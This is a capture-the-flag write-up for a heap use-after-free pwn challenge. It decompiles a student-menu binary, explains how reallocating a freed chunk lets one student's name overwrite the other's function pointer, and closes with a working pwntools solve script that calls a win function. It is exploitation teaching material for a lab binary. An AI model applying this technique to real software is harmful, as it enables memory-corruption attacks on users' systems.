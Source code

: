 # Pwn - Use And Forget
- Solved by: @Elma
- Flag: **-UNKNOWN-**

## Writeup

```sh
appcode > checksec uaf1
[*] './uaf1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

appcode > ./uaf1
1) create student1
2) create student2
3) print student1 name
4) print student2 name
5) free student1
6) free student2
>>
```

On running the program, it seems to be some sort of heap menu. We can investigate further by throwing it into IDA.

```c
int main()
{
  int opt;
  char opt_str[24];
  unsigned __int64 canary;

  canary = __readfsqword(0x28u); // ignore this, this is the stack canary
  setup(); // ignore this, just disables buffering

  while ( 1 )
  {
    do
    {
LABEL_2:
      menu();
      fgets(opt_str, 16, stdin);
      opt = atoi(opt_str);
    }
    while ( opt <= 0 || opt > 8 );
    switch ( opt )
    {
      case 1:
        if ( student1 )
          goto LABEL_9;
        student1 = malloc(0x18uLL);
        if ( !student1 )
          exit(-1);
        *(_QWORD *)student1 = print_student1_name;
        puts("Enter student1 name:");
        read(0, (char *)student1 + 8, 0x10uLL);
        goto LABEL_2;
      case 2:
LABEL_9:
        if ( student2 )
          goto LABEL_13;
        student2 = malloc(0x18uLL);
        if ( !student2 )
          exit(-1);
        *((_QWORD *)student2 + 2) = print_student2_name;
        puts("Enter student2 name:");
        read(0, student2, 0x10uLL);
        break;
      case 3:
LABEL_13:
        if ( student1 )
          (*(void (**)(void))student1)();
        break;
      case 4:
        if ( student2 )
          (*((void (**)(void))student2 + 2))();
        break;
      case 5:
        if ( student1 )
        {
          free(student1);
          puts("student1 freed");
        }
        break;
      case 6:
        if ( student2 )
        {
          free(student2);
          puts("student1 freed");
        }
        break;
      default:
        goto LABEL_2;
    }
  }
}
```

This program is simple. There are two student buffers that we can allocate on a heap. Both student buffer have slightly varying struct that contains the name, and the student pointer. We can also choose to free this student buffer.

As implied by the challenge name, there is use-after-free vulnerability since the student variables are not set to 0 after freeing. This allows us to continue to do stuff to the students even after the buffer has been freed. How can we use this to solve the challenge?

First, we can identify the two student structs to be as such

```c
struct student1 {
    void (* print_student1_name)();
    char name[0x10];
};

struct student2 {
    char name[0x10];
    void (* print_student2_name)();
};
```

As we can see, the structs slightly vary in the order of the variables that it contains. This is how the exploit goes:

1. Create Student 1 _(this allocates a heap buffer of size 0x18)_
2. Free Student 1 _(the heap buffer of size 0x18 is freed)_
3. Create Student 2 _(this **reallocates** the same heap buffer of size 0x18 from what was freed earlier)_

At this point, the memory address that is assigned to **student1** and **student2** is identical. This is because the dynamic memory allocator tend to optimize the allocation of heap memory by reusing memory that has been freed. Thus student 2 heap buffer is reallocated from the freed student 1 heap buffer.

This means that the student 2 name will overwrite the student 1 function pointer, allowing us to get **RIP control** by overwriting student 1 name, and then trying to print student 1 name which would call the function pointer that has been overwritten by us.

Conveniently, there is no PIE and there is a win function that we can call and will gives us the flag.

```c
void __noreturn secret()
{
  FILE *stream; // [rsp+8h] [rbp-98h]
  char s[136]; // [rsp+10h] [rbp-90h] BYREF
  unsigned __int64 v2; // [rsp+98h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Congratulations.. here is your flag..");
  stream = fopen("flag.txt", "rb");
  fgets(s, 128, stream);
  puts(s);
  fclose(stream);
  exit(0);
}
```

Here's the solve script

```py
from pwn import *

context.binary = elf  = ELF("./uaf1")
p = process("./uaf1")

p.sendlineafter(b">> ", b"1") # allocate student 1
p.sendlineafter(b"name:\n", b"student 1's name")
p.sendlineafter(b">> ", b"5") # free student 1
p.sendlineafter(b">> ", b"2") # allocate student 2 !! OVERLAPPING CHUNKS
p.sendlineafter(b"name:\n", p64(elf.sym.secret)) # overwrite student 1 function pointer
p.sendlineafter(b">> ", b"3") # print student 1 name, which will call secret

p.interactive()
```
